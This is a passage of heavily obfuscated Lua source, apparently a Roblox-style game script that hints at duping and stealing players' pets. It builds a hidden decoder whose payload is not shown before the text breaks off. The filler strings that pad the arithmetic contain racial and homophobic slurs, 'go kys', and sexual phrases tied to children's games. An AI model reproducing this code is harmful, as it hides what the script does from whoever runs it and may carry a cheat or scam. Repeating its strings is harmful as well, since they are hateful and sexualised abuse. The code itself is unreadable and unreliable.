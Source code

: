 ,nil,nil;(function() _msec=(function(e,o,l)local E=o["ضحقدټآدجڝجئڝقسد"];local R=l[e[((0x2cd+-69)+-#'niggers')]][e["ڪڪننآدنڪدټزڪحؠڪؠ"]];local c=(95-0x5b)/((-0x1a+((-#'warboy hates you'+(398-0xcf))-119))+-#"if true then return your dad")local i=(-#[[windows xp startup sfx]]+((((((0x7e0b-16193)+-#'W4rboy was here')-8039)-4071)+-#"Bush Did 9 11")/0xa4))-(-0x58+89)local j=l[e[(0x12f+(-160+0x38))]][e["؃ؠسحزؠڪجنسح؃؃ك؃دز"]];local y=((((-238+0x4d)+0x42)+0x6a)+-#"zykem krul")+(0x1f-29)local O=l[e[(0x489-637)]][e["ضن؃جسټټڪسئ"]]local n=(114/0x39)-(-#'panzerfaust'+((0x666a8/((26680/0x73)+-#'Bwomp'))/0x9a))local f=(-#"false"+((-#{{};{},'nil',",",'nil';125;125}+1071)/133))local w=(0x2af/(-0x7f+(((115248/(150+-#{'nil';",";{}}))+-#'Obfuscated By Obamas Left Nut')-0x18f)))local t=(57-(-0x53+((30888/0x4e)-259)))local _=(0x81-(((-0x159/(-#{'}','}','}'}+18))+188)+-#"psx real dupe steal all ur pets no joke"))local B=((0x2b-(43+-#{75;(function()return#{('OObHpP'):find("\98")}>0 and 1 or 0 end),",";",",192;(function()return{','}end)(),(function()return{','}end)()}))+-#'null')local U=(((((0x63be6-(0x25ff56c/195))+-99)/241)/121)+-#[[yeet]])local C=(((292+-#{78,",";","})-177)-0x6c)local p=((-#{1;",",'}'}+64)+-57)local m=(0x3e8/(((560005+-#{'nil',(function()return{','}end)();(function()return#{('BphfBp'):find("\104")}>0 and 1 or 0 end),'nil';53})/140)/0x10))local N=(928/(562-(-#[[howtodumpscript]]+(0x2de-((0x361-456)+-#"go kys go kys go kys")))))local S=(((0x44f7/(0x3bf1/(837/0x9)))-85)+-#"nico der hurensohn")local P=(-#"balls"+((((18382/(443-0x105))-0x68)+-#"brawl stars hard gay porn shelly nsked minecraft gay porn roblox rule34 hot")+0x57))local k=(0x41-(67+-#{1,",";58,'nil'}))local D=(52-(0x90-(-#"big niggers sucking cock"+(((65362-0x7fd8)/0x7e)-0x8d))))local b=(-#{(function()return#{('BpfKpB'):find("\102")}>0 and 1 or 0 end),(function()return#{('BpfKpB'):find("\102")}>0 and 1 or 0 end);(function()return#{('BpfKpB'):find("\102")}>0 and 1 or 0 end)}+5)local u=((-223-(-0x4718/((0xc9e8/142)/2)))+0x7d)local h=(84/(-#'this is a meme string'+((-#'ur mom is hot'+((387+-#{1;'}',(function()return#{('BKlHom'):find("\108")}>0 and 1 or 0 end);(function()return#{('BKlHom'):find("\108")}>0 and 1 or 0 end);26;1})-244))+-0x3d)))local x=(7+-#{",",(function()return{','}end)();{},'nil',1})local G=e[((-76+0x5ab)+-#[[I FUCKING HATE FEMBOYS]])];local H=l[e[(0xa7e8/216)]][e["ڪزحټكڪآس"]];local Y=l[(function(e)return type(e):sub(1,1)..'\101\116'end)('ڪڝئڝئض؃ټ')..'\109\101'..('\116\97'or'قؠټسڝټجئ')..e[((139740/0xff)+-#'keno 0347 is a nerdy fag')]];local K=l[e[((65596/0x7c)+-#'balls')]][e["ددڪئټكټټ"]];local z=(39+-0x25)-(((-#"Gay porn"+((0x4be4+(0x18+-113))/233))+-0x29)+-#[[Me be like at 5am in the morning]])local g=(119-((168480/0xf)/0x60))-(0x3b-57)local F=l[e[(202+-#{8;'}';","})]][e["زكئضد؃؃زسققضآقآؠ"]];local o=function(o,e)return o..e end local v=(26+-0x16)*(0x1c-((446832/0x57)/214))local L=l[e["قزقڪټك؃دد"]];local a=(0x1f4/250)*((0xe6+(-111+(0x61+(-#'MSC 793z487nhvcgsdfgsudfza9889jgvz56gz56z547684z5g54z948g56z74j56475jzg645z6456 oh wait'+(0x430/134)))))+-#"0nly 1337")local I=(-#[[10 black dicks in your mouth]]+(0x34234/203))*((((-79+0x1af)+-#'nico der hurensohn')+-0x6e)/0x70)local T=((((((7955124/0xd5)+-#'impulse 2022')-18709)-9339)/0x81)+-#"Cock and ball tortue")local M=(33-(((20091/0x6f)-141)+-#[[0nly 1337]]))*((154-0x6c)+-#'i shoved a whole bag of jellibeans up my ass')local s=l[e["سحضضنضڪكئڪ؃ټكح"]]or l[e[(-#[[if true then return your dad]]+(1138-0x24a))]][e["سحضضنضڪكئڪ؃ټكح"]];local r=(((726375/(-0x6e+259))+-#'panzerfaust')/0x13)local e=l[e["آئزڝقڝټڝټدضضآضڝ؃ؠئ"]];local A=(function(a)local r,l=2,0x10 local o={j={},v={}}local d=-n local e=l+i while true do o[a:sub(e,(function()e=r+e return e-i end)())]=(function()d=d+n return d end)()if d==(v-n)then d=""l=z break end end local d=#a while
e